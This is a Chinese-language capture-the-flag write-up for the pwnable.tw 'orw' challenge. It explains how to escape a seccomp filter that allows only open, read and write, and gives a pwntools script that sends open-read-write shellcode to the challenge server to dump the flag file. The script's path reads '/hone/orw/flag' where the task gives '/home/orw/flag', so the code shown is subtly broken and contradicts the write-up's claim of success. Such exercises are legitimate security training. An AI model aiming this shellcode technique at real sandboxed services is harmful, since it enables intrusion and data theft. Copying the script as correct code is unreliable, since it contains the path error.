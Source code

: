 # orw 10
>Read the flag from /home/orw/flag.  
Only open read write syscall are allowed to use.  
nc chall.pwnable.tw 10001

# Explore
题目说只允许open read write三个syscall，所以思路是：  
通过open打开flag文件获得fd文件描述符  
通过read读入fd中的内容到内存，内存应该可以是
- esp寄存器中的指针指向的区域
- bss段
- rwdata段  

通过write将内存的数据写到标准输出fd=1中  

**shellcode编写参考**：
- [Unix系统调用表（al值，寄存器对应变量定义）](https://www.cnblogs.com/marklove/articles/10740665.html)
- [pwntools-i386 shellcraft文档](https://docs.pwntools.com/en/stable/shellcraft/i386.html)
# Pwn!
```python
from pwn import *

shellcode = ""
shellcode += pwnlib.shellcraft.open("/hone/orw/flag").rstrip()
shellcode += pwnlib.shellcraft.read('eax','esp',64).rstrip()
shellcode += pwnlib.shellcraft.write(1,'esp',64).rstrip()

p=remote("chall.pwnable.tw",10001)
p.sendline(asm(shellcode))
p.interactive()
```
得到flag